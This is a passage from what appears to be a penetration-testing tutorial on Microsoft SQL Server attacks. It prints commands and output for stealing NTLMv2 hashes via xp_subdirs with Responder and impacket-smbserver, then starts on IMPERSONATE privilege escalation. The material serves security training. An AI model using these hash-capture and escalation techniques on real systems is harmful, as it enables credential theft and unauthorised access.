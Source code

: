 If the service account has access to our server, we will obtain its hash. We can then attempt to crack the hash or relay it to another host.

### **XP\_SUBDIRS Hash Stealing with Responder**

```shell-session
$ sudo responder -I tun0

                                         __               
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|              
<SNIP>

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : SRVMSSQL\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:5e3ab1c4380b94a1:A18830632D52768440B7E2425C4A7107:0101000000000000009BFFB9DE3DD801D5448EF4D0BA034D<SNIP>
```

### **XP\_SUBDIRS Hash Stealing with impacket**

```shell-session
$ sudo impacket-smbserver share ./ -smb2support

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0 
[*] Config file parsed                                                 
[*] Config file parsed                                                 
[*] Config file parsed
[*] Incoming connection (10.129.203.7,49728)
[*] AUTHENTICATE_MESSAGE (WINSRV02\mssqlsvc,WINSRV02)
[*] User WINSRV02\mssqlsvc authenticated successfully                        
[*] demouser::WIN7BOX:5e3ab1c4380b94a1:A18830632D52768440B7E2425C4A7107:0101000000000000009BFFB9DE3DD801D5448EF4D0BA034D0000000002000800510053004700320001001E00570049004E002D0035004400500<SNIP>
[*] Closing down connection (10.129.203.7,49728)                      
[*] Remaining connections []
```

## Impersonate Existing Users with MSSQL

SQL Server has a special permission, named `IMPERSONATE`, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends. Let's explore how the `IMPERSONATE` privilege can lead to privilege escalation in SQL Server.

First, we need to identify users that we can impersonate. Sysadmins can impersonate anyone by default, But for non-administrator users, privileges must be explicitly assigned. We can use the following query to identify users we can impersonate:
